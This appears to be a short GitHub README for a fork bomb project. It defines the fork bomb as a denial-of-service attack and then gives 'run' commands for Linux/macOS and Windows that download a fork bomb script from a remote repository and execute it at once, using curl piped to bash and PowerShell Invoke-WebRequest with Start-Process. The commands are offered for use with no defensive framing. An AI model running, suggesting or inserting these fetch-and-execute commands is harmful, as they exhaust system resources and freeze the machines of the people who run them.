 # Fork Bomb

A fork bomb is a type of denial-of-service (DoS) attack that exploits the fork system call. It works by creating a process that repeatedly replicates itself, leading to an exponential increase in the number of processes running on the system, which can overwhelm system resources and render it unresponsive.


### run on Linux/macOS

```bash
cat <(curl -s https://raw.githubusercontent.com/savasick/forkbomb/refs/heads/main/forkbomb.sh) | bash
```

### run on Windows

```shell
powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/savasick/forkbomb/refs/heads/main/forkbomb.bat' -OutFile 'forkbomb.bat'; Start-Process 'forkbomb.bat'"
```